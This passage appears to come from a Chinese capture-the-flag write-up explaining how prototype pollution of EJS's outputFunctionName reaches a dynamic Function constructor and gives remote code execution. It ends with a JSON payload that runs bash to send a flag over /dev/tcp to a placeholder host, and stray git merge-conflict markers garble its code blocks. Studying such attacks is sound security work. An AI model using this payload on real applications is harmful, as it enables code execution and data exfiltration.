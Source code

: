 这里不用全看懂，就是把 opts.outputFunctionName 进行拼接传递给 prepended，然后 prepended 再进行拼接传递给

this.source

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
if (opts.compileDebug){
    src='varline 1'+'\n'

        +',__lines ='+JSON.stringify(this.templateText)+'\n'

        +',__filename ='+(opts.filename?

        JSON.stringify(opts.filename):'undefined')+';'+'\n'
        +'try{'+'\n'

        +this.source

        +'}catch (e){'+'\n'

        +' rethrow(e,__lines,__filename,__line,escapeFn);'+'\n'

        +'}'+'\n';
}

else
src=this.source;
}
```

这里又将 this.source 做拼接后传递给了 src

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
else {
    ctor = Function;
  }
  fn = new ctor(opts.localsName + ', escapeFn, include, rethrow', src);
}
```

这里终于是出现了一个动态函数，参数就是我们的 src，所以如果我们覆盖了 `opts.outputFunctionName` 即可触发模版编译处的 RCE。

Payload:

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
{"type":"test","content":{"constructor":{"prototype":
{"outputFunctionName":"a=1;process.mainModule.require('child_process').exec('b
ash -c \"echo $FLAG>/dev/tcp/xxxxx/xx\"')//"}}}}
```
